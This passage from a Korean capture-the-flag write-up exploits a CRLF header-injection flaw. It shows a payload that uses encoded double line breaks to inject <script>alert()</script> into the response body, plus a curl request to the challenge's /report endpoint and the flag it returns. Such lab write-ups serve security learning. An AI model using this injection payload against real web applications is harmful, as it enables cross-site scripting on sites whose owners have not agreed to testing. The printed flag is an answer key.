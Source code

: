 ```bash
* Excess found writing body: excess = 65, size = 51, maxdownload = 51, bytecount = 51
* Closing connection
Connect
```

```bash
"header=header1: value1%0D%0A%0D%0A<script>alert(123)</script>header2&value=value2"
```

CRLF를 두 번 추가한 부분부터는 본문으로 인식됨

이곳에 `<script>alert()</script>`삽입

|

### 1-5. /report에 요청

```bash
curl -v http://war.knock-on.org:10013/report -d "header=header1: value1%0D%0A%0D%0A<script>alert()</script>header2&value=value2"

* Host war.knock-on.org:10013 was resolved.
* IPv6: 64:ff9b::3b12:d88d
* IPv4: 59.18.216.141
*   Trying [64:ff9b::3b12:d88d]:10013...
* Connected to war.knock-on.org (64:ff9b::3b12:d88d) port 10013
> POST /report HTTP/1.1
> Host: war.knock-on.org:10013
> User-Agent: curl/8.5.0
> Accept: */*
> Content-Length: 78
> Content-Type: application/x-www-form-urlencoded
>
< HTTP/1.1 200 OK
< Server: Werkzeug/3.0.3 Python/3.10.12
< Date: Sat, 14 Sep 2024 12:58:28 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 37
< Connection: close
<
* Closing connection
K0{CRLF_is_very_common_vulnerability}
```

`/`경로에서 잘 되는 것을 확인했으니 그대로 `/report` 경로로 요청

|

|

|

## 방법 2 - burp suite
